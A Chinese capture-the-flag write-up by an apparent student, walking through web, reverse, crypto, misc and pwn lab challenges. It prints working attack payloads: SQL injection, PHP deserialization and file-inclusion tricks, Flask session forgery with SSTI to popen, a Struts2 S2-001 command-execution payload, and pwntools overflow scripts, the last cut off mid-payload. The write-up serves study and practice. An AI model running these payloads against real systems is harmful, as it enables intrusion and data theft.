

<br/>

# infos
笔者做题的时候都找不到能参考的博客，深受其痛，写完以后想想还是发出来吧，供有需要的学弟学妹们参考参考。大概80%原创率，写的时候没打算发出来，就没咋排版，crypto和pwn部分写得比较随便，凑合着看吧...

<br/>

# WEB

## Web1-文件包含漏洞

访问端口，可以看到源码。源码中告知我们flag在flag.php中，另外发现存在一个file参数，而且对它过滤了php，但是可以用大小写绕过。先用get传参file=/etc/passwd，成功回显，确定靶机系统。


构造PHP://input伪协议，传参`<?Php system('cat fla*');?>`，成功返回出flag。


## Web2-SQL注入漏洞

一进来看见username和password，先随便试一试，发现提交一次以后就给了waf代码。只做了一次关键词删除的操作，所以可以进行双写绕过。本来写了个sqlmap的tamper，但是不知道为什么sqlmap用不了，所幸逻辑不是太复杂，且存在回显，直接通过手注得到flag。


payload: `1" uunionnion sselectelect 1,2,grrooup_concat(fflaglag) frroom fflaglag#`

## Web3-反序列化漏洞

读代码，有两个post参数easy和ez，str_replace把easy替换成ez，但序列化中记录的长度不变，所以存在反序列化漏洞。


利用easy替换成ez，我们可以构造payload使反序列化时str1的长度囊括str2的前半段序列化内容，使得程序误以为str2的后半段是完整的一段序列化内容。先获取getflag的序列化内容。


构造出getflag的序列化payload`";s:4:"str2";O:7:"getflag":1:{s:4:"file";s:8:"flag.php";}`后贴在str2后面，之后先随便给str1赋值来计算需要的easy数量。


我们需要使第一行str1后easy字串的引号和第二行标注出的引号对齐，很容易构造出payload，结果是`easy=easyeasyeasyeasyeasyeasyeasyeasyeasyeasy&ez=e";s:4:"str2";O:7:"getflag":1:{s:4:"file";s:8:"flag.php";}`

## Web4-远程命令执行漏洞

burp抓包，先尝试管道符和反引号，发现都被过滤了。上网搜索绕过方式，逐个尝试，发现%0a和重定向符都没有被过滤，所以利用重定向符把cat /flag的输出重定向到ping.php中。


## Web5-模板注入漏洞

打开网页，发现提示post name，尝试post后发现各种SSTI均无效。post值为admin时会返回who are you，暂时无从下手。接下来尝试了各种POST，GET，突然发现用GET提交时返回的报文头会有hint: /nonono，立即尝试打开网址10.12.153.8:32333/nonono，发现成功进入。


阅读代码后尝试登陆/admin但失败。注意到有将验证session的操作，所以应该要伪造admin的session，查阅资料后发现可以使用flask session cookie manager，但要解码session仍然需要SECURE_KEY，但是怎么都找不到。最后死马当活马医直接把-s参数删去后发现竟然解出了。


感觉解出的key很像base64啊，但是不能保证，把这个key拿回去作为-s参数解码之前的session，发现失败了，使用base64解码后再解码session发现成功解码，确定了key是Th1s@one!seCret!


用key加密{'role': {'is_admin': 1, 'name': 'admin', 'secret_key': 'VGgxc0BvbmUhc2VDcmV0IQ==', 'flag': '111'}},替换session后访问.admin，将flag换成{{2*2}}后也成功渲染出4，存在SSTI。


之后则根据pdf的教程尝试，先输入{{().__class__.__base__}}拿基类，页面成功返回class object，之后再用{{().__class__.__base__.__subclasses__()}}取子类，也选用class os.wrap_class，复制到word里可以搜索到前面的class是第133个。


接下来用{{().__class__.__base__.__subclasses__()[132]}}，结果发现网页500了，推测是过滤了中括号，使用__getitem__()替换，成功绕过。


接下来使用{{().__class__.__base__.__subclasses__().__getitem__(132).__init__.__globals__.keys()}}'}}爆出所有键名，发现有popen可以利用。输入{{().__class__.__base__.__subclasses__().__getitem__(132).__init__.__globals__.__getitrm__('popen')}}，发现网页500，推测是过滤了反引号，查阅资料，使用request方法绕过，构造payload: {{().__class__.__base__.__subclasses__().__getitem__(132).__init__.__globals__.__getitem__(request.args.v1)(request.args.v2).read()}},向v1,v2分别传参popen和cat+/flag。

最后求得session为
```
.eJxdzLEKwjAQgOF3ydRCKbZuhS4iiKODXUOSnjGYtJhLixLy7p7pILjdffx3kfnZAusiM8jF6MzEuqZik3CEbIOKISgPgT_gTTic9EvtDqt017tqh6Nyw-586XvqblZoKmIsyppzZQUi5zRJgZAHXGRWIM-NhmACONqaffsFM5mQU21nKex2_6s8PBfAUAuvsV6b8g_ohQcxFmVKLKUPMWZL6g.ZxXI6g.F9bxIetxV6-M_olhJBSx_hWRBhg
```
使用get传参v1=popen&v2=cat+/flag，成功爆出flag

## Web6-java框架漏洞

一开始以为有SQL注入，但是怎么都注不出来。在地址栏乱试的时候竟然弄出了报错界面，发现使用的框架使struts2，在网上搜索并尝试相关漏洞，发现该网站存在S2-001漏洞，在输入框内输入`%{1+1}`并提交后变成了2。使用漏洞给出的利用payload也是成功得到flag。


payload:`%{#a=(new java.lang.ProcessBuilder(new  java.lang.String[]{"cat","/flag"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new  char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`

## Web7-反序列化进阶

学习反序列化的时候看见过这题，几乎一模一样。目的是利用Hard中的append来读取/flag，Road中做了过滤，但是没有过滤完全，可以使用filter伪协议来绕过。调用append的\_\_invoke在将对象调用为函数时触发，可以通过Change中的\_\_get触发，而它可以通过Road中的\_\_toString触发，它又可以由Road中的\_\_wakeup触发。


payload: `O%3A4%3A%22Road%22%3A2%3A%7Bs%3A4%3A%22test%22%3BO%3A4%3A%22Road%22%3A2%3A%7Bs%3A4%3A%22test%22%3Bs%3A3%3A%22aaa%22%3Bs%3A6%3A%22string%22%3BO%3A6%3A%22Change%22%3A1%3A%7Bs%3A1%3A%22b%22%3BO%3A4%3A%22Hard%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A6%3A%22string%22%3BO%3A6%3A%22Change%22%3A1%3A%7Bs%3A1%3A%22b%22%3BO%3A4%3A%22Hard%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7D`

得到base64编码的flag，解码即可。


## Web8-secure_shell

尝试了一下后发现命令能直接执行，过滤好像没有起效？


# Reverse

## Reverse1-静态调试

直接拖进IDA分析，F5反汇编，逻辑很简单，首先长度得是26，对Str做了处理以后和Str2做了比较。Str2是`welcome_to_2024hustncc!!!!`，那就看sub_401550就可以了。


发现处理操作很简单，就是把输入和Str1逐位异或了，编写一个脚本就能跑出结果。


## Reverse2-动态调试

上课讲过的题，拖入IDA后先查看字符串，发现有“分数”，猜测是达到一定分数就能给出flag，查看分数变量的xref，发现在一处xref存在判断逻辑。


进行动态调试，在程序运行到这里的时候修改寄存器ax的值为C8，成功得到flag。


## Reverse3-迷宫逆向

拖入IDA，发现输入长度需要是24，且通过一个函数，函数逻辑很简单，不贴截图了，结合题目名字，发现就是通过输入wasd来走迷宫。


但是以为这个迷宫很小也很简单，我就直接把地图复制出来手打了。


## Reverse4-C++语言特性

## Reverse5-加密算法

拖入IDA，发现还是加密后比对。


按顺序跟进代码，先阅读sub_4017F7，进入后发现还利用到了一个数组。


跟进查看数组内容，发现竟然是63h, 7Ch, 77h, 7Bh，是AES的S盒，猜测代码就是使用AES对输入做了加密后再做对比。可以先尝试一下，如果不对再深入分析。


很幸运成功解出，套上vmc{}就是flag。

## Reverse6-飞翔的小鸟

拖入IDA后直接shift+f12，发现有可疑字符串。


凯撒密码直接解密得到flag。


## Reverse-7 花指令

用IDA打开后发现无法反编译，发现存在junkcode，patch修复程序。


此时再F5就能反汇编了。阅读代码，加密逻辑很简单，对a1中的每个元素加上其前一个元素，再循环右移四位，完成后和另一个数组做比较。


编写脚本解密。


## Reverse8-虚拟机逆向

vm题，贴截图意义不大，我直接文字说明。

阅读vm部分，发现是switch结构，那就先静态分析，大体看了看每个函数，有少数几个比较和跳转，剩下的都是做运算的。那就把操作指令拿出来对着分析。

```
  0x03, 0x00, 0x00, 0x00, 0x00, 0x00,      //mov
  0x03, 0x00, 0x00, 0x00, 0x00, 0x01, 
  0x03, 0x00, 0x00, 0x00, 0x00, 0x02, 
  0x03, 0x47, 0x00, 0x00, 0x00, 0x03, 
  0x03, 0x25, 0x5B, 0x00, 0x00, 0x04, 
  0x03, 0x91, 0xE5, 0x25, 0x01, 0x05, 
  0x03, 0x7F, 0x00, 0x00, 0x00, 0x06, 
  0x03, 0x18, 0x00, 0x00, 0x00, 0x07, 
  0x02, 0x02, 0x00,                         //0x02:  v12[argv2]=dest[v12[argv1]]                 0
  0x09, 0x02,                               //0x09:  ++v12[argv1]                                2     0x01
  0x01, 0x03, 0x01,                         //0x01:  v12[argv2]=v12[argv1]                       1     0x47
  0x06, 0x04, 0x01,                         //0x06:  v12[argv2]*=v12[argv1]                      1    *0x5B25
  0x04, 0x05, 0x01,                         //0x04:  v12[argv2]+=v12[argv1]                      1    +0x0125E591
  0x08, 0x06, 0x01,                         //0x08:  v12[argv2]%=v12[argv1]                      1    %0x7F       0x34
  0x01, 0x01, 0x03,                         //0x01:  v12[argv2]=v12[argv1]                       3
  0x0A, 0x00, 0x01,                         //0x0A:  v15=v12[argv1]-v12[argv2]                   0, 1
  0x0B, 0x0A,                               //0x0B:  v17=v17+argv1-2
  0x0A, 0x02, 0x07,                                                                              2, 7
  0x0B, 0xDE, 
  0x0C                                      //set_tag
```

分析出来的结果中的主题循环结构写成伪码就是这样的：


很轻松的写出解密脚本：


# Crypto

## Crypto1-格密码

格密码，考察LLL算法，可以直接用sagemath提供的LLL算法。

```python
from Crypto.Util.number import *
h= 311970364425799366998489758816351964614898164597015962390522858760089331210269507769408330245745888541705059882396722340774681935443615888403494901415226651295201132556613291289590900246992553502513664561058230713840616052310750850144077552701142563872837663789636304968423919464707545482008647087312063949024744195318160335652074407874634742273493108112212110123691909346846612115479023950119286716243604630664235633831784083300431161225131883065150778501178458601885263943907964612851841356128492283759401129349655263360496418606534637831065564054627124545266130146585012568948018083420026867791483624987951876329968315410612748989452628410331813540143425873481351220499681815979569479285905651270208308396719282247586008816711527598915797885618862654168623002012746684102245733757428828517277952675441290263051618987121956646671901357370585784409633697165339182406341764320293630983680416055584947772382282259966044517683538433409836256995980804901093405108581243143413703339657071622279140236369465154220363993923085583049720512383384577159975134910449465903227555419552492606439149153015674603047695345700309870206034743317361786333732070962362572427411597266252707397451423195512449103367120235737550650354427690243524900449675
p= 958396606448120961344481821891302529131234571519205540072533929007120447482644938027839069855225984909598017115601687321093037138370623689366302399472755221666720998204960391688686871213784218139146955110040572010513513710257471193690475085340782434134757767894370195789546551282060123540167285748706110004061656181247087025993389812671658906912145384679566372037915179523706023309666826191629634851598509448675340758156737530185937223948687001934035933966720541257653562031308634592003639145311246147664928094381997264652669457904886666262851691565920076364034433600062253014377522558972668765617631467665085324790312091927917199333642804731490452686230714946707520153374983386856748968281865500447110447064499127304576389450231449458997253721401398074788997192735673939296531420329207264490272774186484762804708405995307032141715953080254098506768585899454119852852002578252291310329200959476618660765556861112558404254680356703540148703891793429589128285327230398620737214653509556883409293525132433655639546382948760666188308135216174434756100646981938900940757869329579150360836505992616459066632938605335205569767007863591747811468281490752448411521431430302168214014717351186242150709061058943921599462022604009950194741903607
c= 767158168672362136291238223905378538545444315829681403660668665037917788547250510431680762324989504337886911129872811283399423182492713085621340850466620775416712732614020830060267436728824312319343522189998875569791210615658554329492772575522352284894778864900683043087475949382767603528807809596004213194946687583749277851731545121301799909443549367647188538291294493900118514585149301404415365107375148502163345229200555520367376148986792681776613941685900525114359918025093194374564154918465789098039688273260831196880453048787881692220588699313824407443049610470566611891830120455606865304514498141918370250200060333776115471607369861567714061571248634366226901360555240991881037749649258353302128601187117945261098036478588953880956746052307508140721683848770369771427200654010686745459084737649483182116223928908511586372587312845173805333061611628627699056444060210866689908925857413693914088384801590539118419817748706914585535977225375257595014121709225398146804929559026288825337416874187757876993164395155899845807880799091660701491902131855351054079661782867046531376623992742661604584530403794933640735943298254524984623808363772872836875750554022138997087590785362832339405833456398277842368920260448389099114876068641

mat = [[0, p], [1, h]]
M = Matrix(ZZ, mat)
a, g = M.LLL()[0]

m = (a * c % p * inverse_mod(a, g) * inverse_mod(a, g)) % g
flag = long_to_bytes(int(m))
print(flag)
```

## Crypto2-DSA签名

用nc连几次后发现r是相同的，可以进行k共享攻击。

```python
import random
from ecdsa import ecdsa as ec 
from datetime import datetime
import hashlib
import gmpy2

p = 6277101735386680763835789423207666416083908700390324961279
q = 6277101735386680763835789423176059013767194773182842284081

str1 = "2998993021721292233029664078045327160473956555084666819399, \
3096033686404961285881639680282045739676569062414017706649, \
245280537607336073245931067264143084648"
str2 = "2998993021721292233029664078045327160473956555084666819399, \
4515865833473605417972283696795686813368538303926727381754, \
205843560719972721019229631423793788388"

r1, s1, m1 = (int(k) for k in str1.split(", "))
r2, s2, m2 = (int(k) for k in str2.split(", "))

msg = "16:12:10:get_flag"

k = ((m2 - m1) * gmpy2.invert((s2 - s1), q)) % q
x = (((k * s1) % q - m1) * gmpy2.invert(r1, q)) % q

RNG = random.Random()
g = ec.generator_192
N = g.order()
secret = x
PUBKEY = ec.Public_key(g, g * secret)
PRIVKEY = ec.Private_key(PUBKEY, secret)

hash = int(hashlib.md5(msg.encode()).hexdigest(), 16)
nonce = RNG.randrange(1, N)
signature = PRIVKEY.sign(hash, nonce)
print(f"{signature.r}, {signature.s}")
```

## Crypto3-简单RSA

附件给了几组n, c，分析后发现n中存在公因数，所以可以进行广播攻击。

~~一开始给的附件中n没有公因数，实在想不到怎么做，结果开始尝试顶着e=65537用中国剩余定理硬算~~

```python
from gmpy2 import*
from Crypto.Util.number import long_to_bytes, inverse
import sys
import math
sys.set_int_max_str_digits(0)

n1 = 18856599160001833299560082802925753595735945621023660831294740454109973698430284916320395522883536507135735383517926050963512440162483065097256884040938259092582892259657340825971260278387406398529168309426241530551396056450450728728601248269612166083300938497235910244979946020059799495231539400114422748104072550004260736766137354572252872437140063474603268146956570787143010441293268321641092743010805639953103578977668248726500636191043930770036787317928372179939360510179438436665591755940224156131460271763912868322774604558314812111335691108887319827579162188169744014973478052491398688611046800951698773893393
c1 = 13626479618142792076354477445372254934532574868868117163050547251463179861372507142300574493649308252701079912665315088761407255931271267170849066177985767113485612176392873379492893750155552566516651649959482066906750356839827384372988660011783271504340333752015689862645045421423762533102217991404771613278980261308788013376442437984124481987835039633961510421372082468411694313534191263655502752571896109717956818965483922314877521871633161063293063647518918199152180714087138182926978495220194729937032249068426540668679052935621504970946134622961338501283793335306830799335188286018891391840044076388959965630301
n2 = 21996468204721630460566169654781925102402634427772676287751800587544894952838038401189546149401344752771866376882226876072201426041697882026653772987648569053238451992877808811034545463363146057879646485465730317977739706776287970278094261290398668538232727000322458605289913900919015380904209692398479885177984131014170652915222062267448446642158394150657058846328033404309210836219241651882903083719822769947131283541299760283547938795574020478852839044803553093825730447126796668238131579735916546235889726257184058908852902241422169929720898025622336508382492878690496154797198800699611812166851455110635853297883
c2 = 18181013181924689948541041416760947306688136841272188512451039442155504969807760930292457425927752185102151087538803010967638098616255918142113437382470813461351585370703147719046371829349428270946175420880200664625374975713190202924827747839065809389997555955959348715187885699069284228135878056249077344129844387192378170588405135476161263409928027833786711286224049797104826278850959873152098340503920349823199843925319436131659270481190124556246394643627202503409076763370198853919203380133130137208523077353739822724302562775475819684892444487341289709523826069975135858151228697537239584610910006003678375124509
n3 = 22182114562385985868993176463839749402849876738564142471647983947408274900941377521795379832791801082248237432130658027011388009638587979450937703029168222842849801985646044116463703409531938580410511097238939431284352109949200312466658018635489121157805030775386698514705824737070792739967925773549468095396944503293347398507980924747059180705269064441084577177316227162712249300900490014519213102070911105044792363935553422311683947941027846793608299170467483012199132849683112640658915359398437290872795783350944147546342693285520002760411554647284259473777888584007026980376463757296179071968120796742375210877789
c3 = 12790806179344707164576440564416387516505561997075971589080974404113034515739395713281264585011755838493732188317663751865219559688147162767541477837338907592680693719035537504648721674545987311788685341445310545117753186355158252804710420012947439555851758591319192084097479575093504180019735716505501754123125306458090771644320661904692290555378942400920079933609631809178965733398053505772054526563577152707071190034042378225769202375247509820845197880342937204820196258836428762613890459114484000187761559901744906714315562970531662558834369031237500572312259237829430335725412097666858746117056030151788880189757

e=65537

n=[n1,n2,n3]
c=[c1,c2,c3]

for i in range(len(n)):
    for j in range(len(n)):
        if(i!=j):
            if(gmpy2.gcd(n[i],n[j])!=1):   
                print(i,j)                 
                p = gmpy2.gcd(n[i],n[j])
                print("p = ",p)
                q = n[i] // p
                print("q = ",q)
                d = gmpy2.invert(e , (p-1)*(q-1))
                print("d = ",d)
                m = pow(c[i],d,n[i])
                print("m = ",m)
                
                print(long_to_bytes(m))
                
```

## Crypto4-分组密码工作模式

CBC加密，可以使用字节翻转攻击。

```python
from Crypto.Cipher import AES
import os

token1 = b'HUSTCTFer!______'
token2 = b'AdminAdmin!_____'
token = "4f66fa06ea772ed332b94c34e2dd808f3274e1f7b2fbf7e0a996a963b10f1d6e"

auth_key = os.urandom(16)
#iv1 = os.urandom(16)
iv1 = bytes.fromhex(token[:32])
iv2=b''

cipher = AES.new(auth_key, AES.MODE_CBC, iv1)
code = cipher.encrypt(token1)

for i in range(16):
    k = token1[i]^token2[i]^iv1[i]
    iv2 += k.to_bytes(1,"little")
    
print(iv2.hex()+token[32:])    
# 4657c43bc7620cdb29f63234e2dd808f3274e1f7b2fbf7e0a996a963b10f1d6e

cipher = AES.new(auth_key, AES.MODE_CBC, iv2)
string = cipher.decrypt(code)

print(string)
```

## Crypto5-古典密码破译

个人感觉最难的，其他题都做完了就差这道题，等到老师上课讲了才知道该怎么做。

```python
from Crypto.Util.number import *
from sage.all import *

ciphertext =b'>u\x10l9\npI,0\x04^J\x00ib\x03\x0c\x158d\x1f\x08Ixk\nF\x19fz\x14PT\x04\x03>R~'

rawi = [int(x) for x in ciphertext]
print(rawi)
print([ord('v'),ord('m'),ord('c'),ord('{'),ord('}')])
p = matrix(Zmod(127), 3, 3, [118, 109, 99, 123, 0, 0, 125, 32, 32])
c = matrix(Zmod(127), 3, 3, [62, 117, 16, 108, 57, 10, 62, 82, 126])

for i in range(0, 127):
    for j in range(127):
        p[1, 1] = j
        p[1, 2] = i
        flag = True
        if p.is_invertible() is True:
            K = p.solve_right(c)
            decode = ''
            for k in range(13):
                tmp = matrix(Zmod(127), 1 , 3 , rawi[k*3 :(k+1 )*3 ])
                A = K.solve_left(tmp)
                for l in range(3 ):
                    char = chr(A[0 , l ])
                    if not char == ' ' and not char.isprintable():
                        flag = False
                        break
                    decode += char
                if flag is False:
                    break
            if flag is True:
                print(f'123 {i} {j} | {decode}')

```

## Crypto6-RSA加密算法攻击

注意到给出的e很大，可以考虑使用维纳攻击。

```python
from Crypto.Util.number import *
import gmpy2,sympy


N1=27682578737141139764880192910976946263355689816882797515059917479242862799083599745594956880258244112867559722435850732812023189662581052511287867553308318268020022386306820424829898858029986193412922645944359409248568131057377380697236238480724883073062491532254626363468032145049953168789073328812076794158602028961853986034378144749656228541552641207393473830715156452473432130040360471566096165146087202836036783304640579183082301858529818598032339821237841219774124710789761912675044056265735587753304064079484844965820681168729776560497921764083742448045654891113500035063474318442078036531813957551086231747079155691690001433127187382636049871228279519466735719768798574776353687049667125384146566107739705553580693984918816215940308884007192621418304753551998125658993859095063641090798574130161651257890916914325076137436869018454577522833
C1=14360977893873474578201937159000122429359790977572665232657843468076201963407780015131857192621550737338805880514393357390576423731328871867241029260294051045710144482989801857054158816998897546124709802730198690244128545073634486145786763294634081834588146373913232490890078533918320777534358739106486350300547206365723045306767038214923412032633833255742963954701475401704385045019069883734625251436409851588044241336835452728962860280865504000103361559688861149086469939940113748174610019620309023214292662384279070127090992947332945432141695583191136521301940116585610033790348125114471980285332011918355578839128892075058698885319243593345096734776497817461251643381989958326810478500026684389358920342021836572511688796450072700142033952403561408907486022094802237175920044147084170050294965826258250618675638343726352907476393474128674488943
E1=138906518221471521524404330039616633297752765534176570868900039237133419857485415639423196636068397237296224442083213768630488100717977884415342104239280950424735129147986053115335928783190377695248250926374734988108972136349625965753649992146322810352768246041575396721661142246729747572832017510241749082431
N2=27682578737141139764880192910976946263355689816882797515059917479242862799083599745594956880258244112867559722435850732812023189662581052511287867553308576254232706953290519059976159239205559295965110148734449650209977235953163255494808056707188551192674128213090005439928085856216617642935948961573449294338310127166077195263402939848861686214485115686799032901147314759348481062418109120418661302585413868782602282463165171129063197961455779193665041902822948963032580054067050227612838335828201043413949164885293325493829570131849345344856137656453666135670724974184749115550720826497558763320127218251970576144750319782121194483563545371157323166968983176013145267856898865437101799958588342741257457472036311490402279982286349929050116350394664561659857216725849236910894778018502118673902399095646487808462155207034764432342699549109080808769
C2=11293777290569693972360166961981727494638218221438571150393361751316389824613571820229370915191500766619410597117671232443452691634734112652285521806824284959073558010661204730954928847260946403867297932862687770449632506087883187920107766050673462588812979708792790888354008526054467620780053118019643408427959406056087370960170992834047890080269663747877143270683069575318397144844481262382463469080755423097527007161449411933936669451476467352049264455203632729909164666006688294056405955940041007137719228484035343153943155100892867641033645111253109951972003798413524003505574000784399458705347262353155363413513341797868942085136977548116650815336000627353933708913237438841909324920070013498153627767891674969586034872104569344923832761239959420543717354211689339868787331074579605476477152218068810732089913023456240425720821047030224659918
E2=138906518221471521524404330039616633297752765534176570868900039237133419857485415639423196636068397237296224442083213768630488100717977884415342104239280950424735129147986053115335928783190377695248250926374734988108972136349625965753649992146322810352768246041575396721661142246729747572832017510241749082619

def exgcd(x,y):
    mult = []
    if y > x:
        x,y = y,x
    while y:
        mult.append(x//y)
        x,y = y,x % y
    return mult

mult = exgcd(N2,N1) # N1<N2

for n in range(len(mult)):
    temp = mult[:n]
    num = 0 # 分子
    deno = 1 # 分母
    for x in temp[::-1]:
        num,deno = deno, deno * x + num
    if N2 % deno == 0 and deno != 1:
        Q2 = deno
        print(Q2)
        break
Q1 = sympy.prevprime(Q2)
P1 = gmpy2.iroot(N1 // Q1,2)[0]
P2 = gmpy2.iroot(N2 // Q2,2)[0]
fai_n1 = (P1-1)*P1*(Q1-1)
fai_n2 = (P2-1)*P2*(Q2-1)
d1 = gmpy2.invert(E1,fai_n1)
d2 = gmpy2.invert(E2,fai_n2)
m1 = pow(C1,d1,N1)
m2 = pow(C2,d2,N2)
print(bytes.decode(long_to_bytes(m1)),end="")
print(bytes.decode(long_to_bytes(m2))) 

```

## Crypto7-LFSR

脑子里依稀记得可以通过矩阵运算求出反馈函数，但是怎么想都想不起来细节。在中午吃饭前，花了两分钟搓了一个暴力挂着，没想到吃完饭回来一看，竟然已经跑出来了~~（感谢把第一个数设置的这么小）~~

```python
import Crypto.Util.number
import sys

a = [0,1,1,1,0,0,0,0,1,1,0,0,1,0,0,0,1,0,1,0,1,1,1,0,1,1,1,1,0,0,1,0,1,0,0,1,0,1,0,1,1,1,0,0,1,0,0,1,0,0,0,0,1,1,1,1,0,1,0,0,1,1,0,0,1,0,1,0,1,0,1,1,0,0,1,0,1,0,1,0,0,1,1,1,0,1,0,1,0,0,0,0,0,1,1,0,1,0,0,1,1,0,0,1,1,0,0,1,1,1,1,1,0,0,0,0,1,0,0,1,0,1,0,1,1,0,1,1,1,0,1,0,0,1,1,1,1,1,0,0,0,1,0,1,0,1,0,0,1,1,1,1,0,1,1,1,1,1,1,1,1,0,0,1,0,1,0,1,1,0,1,1,1,0,1,0,0,0,0,1,1,0,0,1,1,1,1,0,0,1,0,1,0,1,0,0,1,0,0,0,1,1,1,1,1,1,0,0,0,0,1,1,1,1,0,1,0,1,0,1,0,1,0,0,0,1,0,1,0,1,1,1,1,0,1,0,1,1,1,0,1,0,0,0,1,1,0,1,1,0,0,1,1,0,1,1,1,1,1,0,0,0,1,1,0,1,0,0,0,1,0,0,1,0,0,0,1,1,0,0,0,0,1,0,0,1,0,1,0,0,0,1,1,0,1,0,1,1,1,1,1,0,1,0,1,1,0,0,1,0,0,1,1,1,0,1,0,1,0,1,0,1,1,0,1,1,1,0,0,1,1,1,0,0,1,0,0,1,1,1,0,0,1,0,1,0,1,1,1,0,0,1,1,1,0,1,0,1,0,1,1,0,0,1,1,1,0,1,1,0,1,0,1,0,0,1,0,0,1,0,1,0,1,1,1,1,1,1,0,1,0,0,0,1,1,0,1,1,1,1]

key = [14, 105, 202, 351, 391]
for i in range(9+2024):
    new = 0
    for j in key:
        new ^= a[j]
    a = [new] + a
print(a)
str = '0b'
for i in a:
    if i == 1:
        str += '1'
    else:
        str += '0'
str += '0' * (8 - len(str) % 8 + 2)
m = int(str, 2)
m = Crypto.Util.number.long_to_bytes(m)
print(m)
```

## Crypto8-DH密钥交换算法

DH交换就是基于离散对数的，注意到p是由我们提供的，所以可以考虑利用Pohlig-Hellman算法解密钥。

较简单的部分我就不贴代码了，先生成一个p-1是平滑数的1024位的质数p，得到A, B后使用在线网站https://case.edu/artsci/math/singer/Sage%204/pohlig-hellman.html解出密钥a, b，之后就能得到flag咯。

```python
import gmpy2
from Crypto.Util.number import *
from math import ceil, sqrt
from random import choice
from gmpy2 import *

def myPrime(bits):
    while True:
        n = 2
        while n.bit_length() < bits:
            n *= choice(sieve_base)
        if isPrime(n + 1):
            return n + 1

# p = myPrime(1024)
# print(p)

p = 100223007546580344403864142199418068836607425436389616287670313208223962319969836932235955148303493349896240231169335062920347690460765382222332068475727597934002178535907327482636722892355646140444416223173715958385957943822150908411550078696006674387790774838328922541154797967688145352229565975680432805819

A = 92664204946926911635847434185829452489446241173066002819844509945423779137699945820486162581583178490737810445943574657471949177289589830841018965979170456593079921309698348783820409056300092801818563106853509923358828190297300995577464643009060557020757449379811680203873872702826121481859151884246767581386
B = 16215070523373610644711777574690212739477991576903389415736682074103517626640070381930337185381945334315084762261749183399742430818440480953735309168806839534604243897788937147746230600076911361112707253841351133505596537845897054980875201220725901684400901586868368197134556822868656849099888102865216306881

a = 16305310443854251669476347329126313937754896295258455428587826848722930630670198106690200658607237315399134401396016639423016663943569295818934841637190948393904065150035729752670621265632250021120551073822353277636648867875298401310919315004431675084920500391558625637747905545423868897060292763081845391728
b = 5310859284114076584359066375266268546590344293327094942764813246234564690376029440072512964720803971594178548936561086456215857970403592898002782201037599335213753435434065658134737537598308479151856981396831491212026191900407297351295458924186186458845725862772104238805441620117295149688257925993280282068

c = 30435829235379090391017181419339622285042644740689518625585680492207144770562286026489165845629749288738119188030297685542401920145838348501345351721319826756266029826859588112594805080540611443637504019243757988104250333887245197293584998036767395669645027247979072015619478276700383892108649821965384430300

superkey = pow(B, a, p)
key = gmpy2.invert(superkey, p)
m = (c * key) % p
print(long_to_bytes(m))


```


# Misc

## Misc1-压缩包加解密

打开压缩包发现加密了，010打开后发现是伪加密，改完拿到一个二维码的图片，补上缺少的定位角后扫描得到flag。


## Misc2-文件识别、合并和分离

010打开后发现后面有一张png，复制下来打开，发现是一串字符HuStCsEnCc，应该是压缩包密码，尝试后成功解压。得到FakeFlag.txt和TrueFlag.png，瞪眼辨认后得知flag就是md5_32(FakeFlag)，轻松拿到flag。



## Misc3-图片隐写

压缩包没有加密，解压出jpg文件后无法正常打不开，010看一眼发现文件头顺序颠倒了，估计整个文件都是，写个脚本还原回来。

```python
f1 = open("WhoAreYou.jpg", "rb")
f2 = open("Output.jpg", "wb")

while True:
    data = f1.read(4)
    if(len(data)==0):
        break
    f2.write(data[::-1])

f1.close()
f2.close()
```

得到一个蓝屏的图片。一开始找隐写找吐了也没找到，后来上网搜图片隐写的时候看见有人说拉对比度之类的我就走投无路试了一下结果还真有。最后瞪眼拿到flag。

## Misc4-流量包分析

流量包分析，发现有一个ncc.png，导出后发现没什么信息，010打开发现图片高度被处理过，修改高度后成功发现flag。


## Misc5-音频隐写

用Audacity打开频谱图，同时播放音乐，发现在1分44秒左右有噪声，查看该区域频谱图，发现flag。


## Misc6-简单的音乐

查看频谱图没有发现什么信息，010打开发现文件最后写了password。所以使用MP3Stego解密文件，得到flag。


## Misc7-猜猜生日

010打开发现不是伪加密，根据题目名称猜测解压密码是生日，由于生日长度只有8位，所以直接爆破密码。


解出后发现是一个txt文件。我一开始以为是隐写，但是翻来覆去找不到。仔细观察，出现的数字只有四个且使用了空格隔开，且第一个和第三个一样，符合v的ascii码，把它转成四进制后解码，成功拿到flag。

## Misc8-怎么获取图片信息

烂题，OCR识别后拉到CyberChef里base64解码，照着错误的未知再手动做修改，最后得到flag。


# PWN

## PWN1-栈溢出

很简单，常规栈溢出覆盖变量。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

#p = process("./pwn.bin")
p = remote('10.12.153.73',10154)

payload = b'a' * 0x17 + b'\x00'
p.sendafter("Enter your name:", payload)

payload = b'a' * 248 + p64(0x1337ABC)
p.sendlineafter("Enter your comment:", payload)

p.interactive()
```

## PWN2-栈溢出之ret2syscall

常规题，构造ROP链，用syscall调用execve("/bin/sh", NULL, NULL)。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

# p = process("./pwn.bin")
p = remote('10.12.153.73',10156)

pop_eax_ret = 0x40117e
bin_sh = 0x404040
syscall = 0x401185
pop_rsi_rdx_ret = 0x401182
pop_rdi_ret = 0x401180

payload = b'a' * 72 + p64(pop_eax_ret) + p64(0x3b)
